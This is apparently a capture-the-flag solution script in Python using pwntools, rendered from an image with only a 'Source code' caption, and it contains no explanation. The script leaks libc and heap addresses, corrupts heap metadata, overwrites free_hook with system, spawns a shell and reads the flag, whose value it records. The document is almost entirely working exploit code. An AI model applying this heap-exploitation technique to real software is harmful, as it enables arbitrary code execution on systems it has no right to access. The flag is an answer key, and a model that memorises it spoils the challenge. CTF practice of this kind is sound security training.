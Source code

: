 ```py
io.recvuntil('Last name: ')
libc_base = u64(io.recvn(6)+'\x00\x00') - (0x7fe48aceb8d0 - 0x7fe48ab51000)
log.info('Libc base {}'.format(hex(libc_base)))
io.sendlineafter('[y/n]','n')
#leak heap
for i in range(3):
	make('HKHK','HKHK','n','n')
show(-11)
io.recvuntil('First name: ')
heap_base = u64(io.recvn(6)+'\x00\x00') - 0x380
log.info('Heap base {}'.format(hex(heap_base)))
make('HKHK','HKHK','y','n',year=0x10,month='A'*0x10+p64(0xffffffffffffffff),day=10)
make('HKHK','HKHK','n','y',commentlen=return_size(libc_base + free_hook-0xe0,heap_base+0x498),comment='AAAAAA')
make('',p64(0x0)+p64(0x0)+p64(0x0)+p64(libc_base+system),'n','n')
io.sendlineafter('[y/n]','n')
make('HKHK','HKHK','n','y',commentlen=0x20,comment='/bin/sh\x00')
io.sendlineafter('> ','4')
io.sendline('cat flag.txt')
io.interactive()
#flag{michael_scott_for_president}
```


